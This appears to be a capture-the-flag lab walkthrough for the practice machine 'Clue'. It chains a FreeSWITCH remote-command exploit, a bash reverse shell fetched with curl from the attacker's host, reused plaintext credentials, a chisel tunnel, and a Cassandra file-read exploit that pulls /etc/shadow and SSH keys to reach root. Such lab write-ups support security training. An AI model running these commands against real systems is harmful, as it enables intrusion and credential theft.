










Now using the exploit:
```
searchsploit -m windows/remote/47799.txt
```
Now renaming:
```
mv 47799.txt freeswitch.py
```

Now we can edit the password to the one we got from cassandra on port [[PG Practice/Clue/3000]]


```
python3 freeswitch.py 192.168.221.240 'whoami'
```

Now to get a shell:
*shell.sh:*
```
#!/bin/bash
bash -i >& /dev/tcp/192.168.45.236/80 0>&1
```
Start a python server:
```
python3 -m http.server 8021
```
Now start a listener:
```
sudo rlwrap nc -nlvp 80
```
We can get a shell:
```
python3 freeswitch.py 192.168.221.240 'curl http://192.168.45.236:8021/shell.sh|bash'
```

We can switch to cassie with the creds:
```
cassie : SecondBiteTheApple330
```
Now we are cassie:


We can run cassandra-web as sudo:


```
sudo /usr/local/bin/cassandra-web -u cassie -p SecondBiteTheApple330 -B 0.0.0.0:4444
```
Now we are running cassandra as root on port 4444.

Now we can forward the port on one more port:
```
wget http://192.168.45.228:8021/chisel
```
Now we can run chisel on kali:
```
chisel server --reverse --socks5 -p 80
```

On target:
```
chmod +x chisel
```
```
./chisel client 192.168.45.228:80 R:4444:127.0.0.1:4444
```

Now we can check by visiting 127.0.0.1:4444:

Now we can use the cassandra exploit:
```
python3 cassandra.py -p 4444 127.0.0.1 /etc/shadow
```

We are root.

Now we can try getting anthony's ssh key:
```
python3 cassandra.py -p 4444 127.0.0.1 /home/anthony/.ssh/id_rsa
```

This key does not work for anthony.
So checking anthony's history:
```
python3 cassandra.py -p 4444 127.0.0.1 /home/anthony/.bash_history
```

We can see that anthony's public key is in root's authorized_keys:

We can login to root with the previously obtained id_rsa from anthony's folder:
```
ssh root@192.168.236.240 -i id_rsa
```
